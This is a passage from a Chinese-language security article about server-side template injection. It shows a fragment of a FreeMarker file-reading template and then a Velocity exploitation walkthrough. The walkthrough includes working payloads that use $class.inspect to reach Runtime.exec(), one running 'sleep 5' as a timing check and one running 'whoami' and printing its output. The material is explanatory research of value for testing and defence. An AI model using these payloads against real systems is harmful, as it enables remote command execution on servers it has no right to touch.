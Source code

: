     
    <#list 1..10000 as t>
        <#assign line=br.readLine()!"null">
        <#if line=="null">
            <#break>
        </#if>
        ${line?html}
        ${"<br>"}
    </#list>
    
    ```

Velocity
--------

`Velocity`是另一个流行的Java模板框架，非常难exploit。没有“安全注意事项”页面来指出存在风险的函数和内部变量。下面这张截图显示的是用Burp暴力破解变量名，左侧是payload右边是服务器的返回值。

![pic7](http://drops.javaweb.org/uploads/images/8059c8979b093ae52fe24549654afcb4a8d3f38b.jpg)

变量`class`看起来有用，因为它返回了一个`Object`类的`Class`对象。通过Google找到了这个链接[https://velocity.apache.org/tools/releases/2.0/summary.html](https://velocity.apache.org/tools/releases/2.0/summary.html):

![pic8](http://drops.javaweb.org/uploads/images/b9cc19788705365687780f75a51fe6a1eecfae74.jpg)

可以看到一个方法和一个属性：

![pic9](http://drops.javaweb.org/uploads/images/560f65f5110395328fd5d315e56989a350e3886b.jpg)

我们可以把`$class.inspect`和`$class.type`结合起来构造任意的对象。然后我们就可以通过`Runtime.exec()`执行任意命令了。这个想法用下面的代码可以确认，这段代码会造成一个延迟。

```
$class.inspect("java.lang.Runtime").type.getRuntime().exec("sleep 5").waitFor()
[5 second time delay]
0

```

获取命令执行结果有一点麻烦：

```
#set($str=$class.inspect("java.lang.String").type)
#set($chr=$class.inspect("java.lang.Character").type)
#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami"))
$ex.waitFor()
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])
$str.valueOf($chr.toChars($out.read()))
#end
tomcat7

```

#### 补充：
